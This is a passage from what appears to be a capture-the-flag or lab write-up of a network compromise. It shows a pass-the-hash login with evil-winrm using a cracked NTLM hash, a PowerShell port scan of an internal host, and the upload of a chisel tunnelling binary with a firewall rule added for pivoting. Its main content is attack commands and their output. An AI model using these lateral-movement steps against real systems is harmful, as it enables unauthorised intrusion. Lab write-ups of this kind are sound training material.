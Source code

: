 ```
-------------------SNIP--------------------
```

We cracked the user hash and got the password. This can be used for later purpose. Let’s login to admin account using pass the hash technique.

```
⛩\> evil-winrm -u administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.188.150

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> whoami
git-serv\administrator
```

So far we have successfully compromised two machines (.200 & .150). The only remaining machine is .100, this is Thomas’ personal computer. Let’s find open ports on that machine.

```
⛩\> evil-winrm -u administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.185.150 -s /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/
```

We have to load powershell scripts with Evil-WinRM.

```
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> Invoke-Portscan.ps1

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> Invoke-Portscan -Hosts 10.200.185.100 -TopPorts 50

Hostname      : 10.200.185.100
alive         : True
openPorts     : {80, 3389}
closedPorts   : {}
filteredPorts : {445, 443, 110, 21...}
finishTime    : 9/15/2021 6:04:18 AM
```

Two ports are open on .100 machine, port 80 and 3389. our Kali machine don’t have direct access to .100 machine. To access port 80 of .100 machine, we need to tunnel the traffic to .150. As we already have access to .150 we can easily do that with ‘Chisel’ application.

```
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> upload ~/tools/chisel_bin/chisel_win.exe
Info: Uploading ~/tools/chisel_bin/chisel_win.exe to C:\Users\Administrator\Documents\chisel_win.exe


Data: 11397800 bytes of 11397800 bytes copied

Info: Upload successful!

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> netsh advfirewall firewall add rule name="port-fwd" dir=in action=allow protocol=tcp localport=13377
Ok.
```
